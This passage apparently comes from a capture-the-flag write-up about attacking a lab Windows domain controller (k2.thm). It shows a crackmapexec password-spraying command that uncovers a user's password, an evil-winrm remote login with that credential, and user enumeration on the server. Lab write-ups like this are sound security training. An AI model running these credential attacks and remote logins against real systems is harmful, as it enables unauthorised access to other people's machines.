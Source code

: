 <figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
crackmapexec smb 10.10.15.150 -u 'j.smith' -p passwd_list.txt

SMB         10.10.15.150    445    K2ROOTDC         [+] k2.thm\j.smith:vz0q$i8b4c
```

### WinRM as j.smith user

```bash
evil-winrm -i 10.10.15.150 -u 'j.smith' -p 'vz0q$i8b4c'
```

discover other user logon in the Server

```powershell
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/31/2025   1:58 PM                Administrator
d-----        5/30/2023   2:29 AM                j.smith
d-----        5/30/2023   1:31 AM                o.armstrong
d-r---       12/12/2018   7:45 AM                Public
```



## Bloodhound Enumeration
